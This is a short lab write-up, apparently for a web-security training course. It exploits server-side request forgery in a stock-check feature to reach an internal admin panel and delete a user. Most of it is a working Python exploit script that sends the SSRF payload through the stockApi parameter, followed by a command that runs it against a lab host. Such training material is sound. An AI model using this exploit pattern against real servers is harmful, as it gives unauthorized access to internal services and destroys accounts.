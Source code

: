 Vulnerable feature - stock check functionality

Goal - change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.

Analysis:
localhost - http://localhost/
admin interface - http://localhost/admin
delete carlos - http:localhost/admin/delete?username=carlos

```python
import requests
import sys
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def delete_user(url):
    delete_user_url_ssrf_payload = 'http://localhost/admin/delete?username=carlos'
    check_stock_path = '/product/stock'
    params = {'stockApi': delete_user_url_ssrf_payload}
    r = requests.post(url + check_stock_path, data=params, verify=False, proxies=proxies)

    # Check if user was deleted
    admin_ssrf_payload = 'http://localhost/admin'
    params2 = {'stockApi': admin_ssrf_payload}
    r = requests.post(url + check_stock_path, data=params2, verify=False, proxies=proxies)
    if 'User deleted successfully' in r.text:
        print("(+) Successfully deleted Carlos user!")
    else:
        print("(-) Exploit was unsuccessful.")

def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    url = sys.argv[1]
    print("(+) Deleting Carlos user...")
    delete_user(url)


if __name__ == "__main__":
    main()
```

RUN:
```bash
python3 ssrf-lab-01.py 'https://ac0b1f8d1ff73e428074793800860063.web-security-academy.net'
```
END!
